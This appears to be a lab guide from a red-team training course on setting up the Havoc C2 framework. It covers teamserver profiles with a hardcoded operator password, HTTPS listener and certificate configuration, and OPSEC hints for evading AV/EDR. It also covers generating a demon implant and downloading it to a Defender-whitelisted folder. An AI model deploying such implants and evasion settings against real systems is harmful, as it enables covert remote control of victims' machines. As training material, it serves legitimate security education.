

# Havoc C2

With a phletora of attack frameworks available (https://howto.thec2matrix.com), the most important requirement is *malleability/customizability*. Commonly known frameworks such as `metasploit`, `cobalt strike`, `Empire` (Sartkiller GUI), `Mythic C2` and `sliver` come to mind. In this training we'll be using a rather new, cobalt strike like framework called `Havoc C2`.


<https://github.com/HavocFramework/Havoc?tab=readme-ov-file>

Attack frameworks typically all consist of the following elements

1. ***Teamserver***
The central C2 server that receives C2 traffic from implants on its listeners (i.e. `LHOST` in metasploit), management connections from the client as well as it typically also hosts payloads.

2. ***Client***
This is the operater console that connects to the teamserver and allows the adversary to manage listeners, malleable profiles, payloads and implants.

3. ***Implant, beacon, demon, ...*** 
This is the actual malicious code that communicates back over a C2 channel to the teamserver, very often this is primarily a stager/loader (a tiny program that will download the actual malicious code and typically inject it in to memory of a current or remote process.) - attack frameworks will provide a `payload generator` that can build different types of payloads (Exe's, dll's, shellcode, etc...).

The most known is probably MSFVenom from the `Metasploit Framework`.


4. ***C2 Redirectors*** 
We won't be using this in the lab, but in real world scenarios these functies as proxies between the victim and the team-server (It's easier to pop up a new proxy, than a completely new teams-server)

Havoc C2 is the framework we will be using in this training, however the techniques we'll be using can be utilized in each of beforementioned frameworks.

> On Kali we can simply install Havoc C2 with the following command (this is already done)
> 
```bash
apt install havoc
```

# Creating a custom profile
Let's have a look at the custom profile we have created for this team server. The profile will have the general settings such as users that can log in to the team server, user agents for HTTP/HTTPs listeners, and how our implants will behave.

> ***OPSEC HINT*** : Always customize your profiles as default profiles are almost often finger printed by AV/EDR.

```bash
sudo nano /opt/Havoc/profiles/custom.yaotl
```

This is the content of the `custom.yoatl` profile:

```yaml
Teamserver {
    Host = "0.0.0.0"
    Port = 40056

    Build {
        Compiler64 = "/usr/bin/x86_64-w64-mingw32-gcc"
        Nasm = "/usr/bin/nasm"
    }
}

Operators {
    user "Threatadmin" {
        Password = "Threathunt25"
    }
}

# demon setting.

Demon {
    Sleep = 2
    Jitter = 20

    TrustXForwardedFor = false

    Injection {
        Spawn64 = "C:\\Windows\\System32\\Werfault.exe"
    }

    Binary {
        ReplaceStrings-x64 = {
            "demon.x64.dll": "",
            "This program cannot be run in DOS mode.": "",
        }
    }
}
```

# Running the teamserver


```bash
havoc server --profile /opt/Havoc/profiles/custom.yoatl -v --debug
```

# Running the client


In your terminal open a new tab, then run the following command:


```code
havoc client
```
We can now log in to our teamserver using the user `Threatadmin` and the password whcih we defined in the custom Havoc C2 profile.


Let's start by setting up a listener:

<https://havocframework.com/docs/profiles>

In the Havoc GUI to to `view` and select listeners.


> ***OPSEC HINT*** : Always customize your listeners by using valid user agents, also by using HTTPs we make sure our connections are harder to inspect. This is a nice website to generate user agents strings: <https://useragents.io/parse/my-user-agent>

Here's a regular chrome user agent from your windows machine:
```yaml
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
```
Let's add an HTTPs listener, click on `Add` and enter the listener configuration. Give the listener a name, select `Https` and past the user agent in the correct field. Click on `Save`

> Make sure you select the correct IP addres (host) for your machine! You can double check by running ifconfig.


We can also add this to our Havoc profile, so that all these settings are applied when starting the team server. But before we do that, lets keep our OPSEC in mind, we need HTTPS - and we bettter not use the default SSL certificates, those might be signatured. 

Let's create a self-signed SSL certifacate (PEM) and key file - Self signed certificates are of course not ideal - in a real world scenario we'd have them signed by a trusted PKI.

```bash
cd /opt/havoc/certs
openssl req -new -newkey rsa:4096 -x509 -sha256 -days 365 -nodes -out public.crt -keyout private.key
```
Output:


Let's copy the custom.yoatl profile to a new HTTPS template where we'll add the certs, user-agent, listener settings and so on

```bash
cd /opt/havoc/profiles
sudo cp custom.yoatl https.yoatl
sudo nano /opt/Havoc/profiles/custom.yaotl
```

This is the new content of the custom `HTTPS.yoatl` profile:

```yaml
Teamserver {
    Host = "0.0.0.0"
    Port = 40056

    Build {
        Compiler64 = "/usr/bin/x86_64-w64-mingw32-gcc"
        Nasm = "/usr/bin/nasm"
    }
}

Operators {
    user "Threatadmin" {
        Password = "Threathunt25"
    }
}

# HTTPS LISTENER AND CERTS

Listeners {
    Http {
        Name         = "HTTPs Listener"
        Hosts        = ["10.0.0.7"]
        #KillDate     = "2006-01-02 15:04:05" 
        #WorkingHours = "8:00-17:00"
        HostBind     = "0.0.0.0"
        PortBind     = 443
        PortConn     = 443
        HostRotation = "round-robin"
        Secure       = true
        UserAgent    = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36"
        Cert {
                Cert = "/opt/havoc/certs/public.crt"
                Key = "/opt/havoc/certs/private.key"
        }
     }
}
# demon setting.

Demon {
    Sleep = 2
    Jitter = 20

    TrustXForwardedFor = false

    Injection {
        Spawn64 = "C:\\Windows\\System32\\Werfault.exe"
        Spawn32 = "C:\\Windows\\SysWOW64\notepad.exe"
    }

    Binary {
        ReplaceStrings-x64 = {
            "demon.x64.dll": "",
            "This program cannot be run in DOS mode.": "",
        }
    }
}
```

Now close your Havoc Teamserver and client in terminal (control-c) and start the teamserver again with your new profile:

```bash
havoc server --profile /opt/havoc/profiles/https.yaotl -v --debug
```

Open a second tab in your terminal and run:

```bash 
havoc client
```

On your windows machine when we browse with Chrome to the HTTPs listener (https://10.0.0.7:443), we'll now see our own custom self-signed certificate - one IOC less for AV/EDR to trigger on!


We'll create a vanilla demon payload as an executable, make sure all settings are like in the screenshot below (we'll go into the advanced evasion settings later on), save the payload in /opt/havoc/payloads directory:


On your windows machine use `Chrome` and got to <http:\\YourKaliIP:9090\> and download the demon to C:\Temp (this is whitelisted in MS Defender)

(configure chrome to allow exe downloads, turn off smartscreen)


We can now interact with this implant by right-clicking the icon and selecting `"Interact"`.


# Havoc Modules
dotnet
    inline-execute
    execute

Inline - execute (BOF Loader!!!)


>OPSEC Hint : When running the shell command, the process hosting your beacon/implant will spawn a child process, run the command and exit the child process. This is quite noisy compared to running everything in memory in the same process. Also command-line logging (eventlogs, sysmon and EDR's will log the commands.)

***shell***


Explain sacrificial process - advatages/disadvantages (command line logging, stability, patching, not touching other processes)

